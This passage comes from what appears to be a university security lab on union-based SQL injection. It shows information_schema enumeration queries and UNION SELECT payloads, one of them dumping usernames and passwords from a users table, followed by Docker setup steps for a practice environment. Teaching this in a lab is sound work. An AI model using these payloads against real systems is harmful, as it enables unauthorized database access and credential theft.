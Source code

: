 ```sql
-- Dumps the names of databases
SELECT schema_name FROM information_schema.schemata;

-- Dumps the names of tables from a database called 'storedb'
SELECT table_name FROM information_schema.tables WHERE table_schema = 'storedb';

-- Dumps the columns for the table called 'users'
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
```

To execute these queries for our SQLi attack, we need to craft our `UNION SELECT` to return 4 columns and also show the columns that we want to view.

```
' UNION SELECT 1,schema_name,3,4 FROM information_schema.schemata--
```

**Step 3: Dumping Information from Tables**

Once you have discovered the tables and columns you want to dump, you then just rewrite your `UNION SELECT` payload to dump those columns you want to view.

eg.

```
' UNION SELECT username,password,3,4 FROM users--
```

### 6.1.2 Union-based SQLi Exercise

We will be using `docker compose` for running the servers during this lab. If you do not have `docker compose` installed follow [Docker's documentation](https://docs.docker.com/compose/install/).

To start this exercise, download [docker-compose.sqli\_union.yml](files/lab6/docker-compose-files/docker-compose.sqli\_union.yml).&#x20;

```
wget https://raw.githubusercontent.com/uwacyber/cits3006/2022s2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.sqli_union.yml
```

{% hint style="info" %}
M1/M2 users: you have to make three changes:\
1\. Line 6 - change the image name to `uwacyber/cits3006:sqli-union-arm64`&#x20;

2\. Line 16 - change the image name to `arm64v8/mysql:8.0.30`

3\. Line 18 - change the platform to `linux/arm64`
{% endhint %}



You can start the servers using one of the following commands that will automatically pull the images and start the containers.

```
sudo docker-compose -f docker-compose.sqli_union.yml up
```
